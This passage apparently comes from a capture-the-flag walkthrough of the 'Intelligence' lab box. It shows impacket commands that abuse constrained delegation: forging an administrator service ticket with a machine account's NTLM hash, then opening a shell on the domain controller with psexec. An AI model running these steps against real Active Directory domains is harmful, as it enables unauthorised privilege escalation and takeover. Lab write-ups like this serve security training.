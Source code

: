 ![allowed-to-delegate-bh-help](/assets/Intelligence/allowed-to-delegate-bh-help.jpg)

Let's go ahead and exploit this! :D

We will first request the ticket using [**impacket**](https://github.com/SecureAuthCorp/impacket)'s `getST.py` script

```bash
getST.py -dc-ip 10.10.10.248 -spn 'WWW/dc.intelligence.htb' -impersonate administrator intelligence.htb/'svc_int$' -hashes :6bf735e60852b92212d512a4deadcfea
```

![getting-admin-ticket](/assets/Intelligence/getting-admin-ticket.jpg)

The ticket is now saved to disk. We're going to export it to our environment and use it to own the box:

```bash
export KRB5CCNAME=<path/to/ticket>
psexec.py -k -no-pass intelligence.htb/administrator@dc.intelligence.htb
```
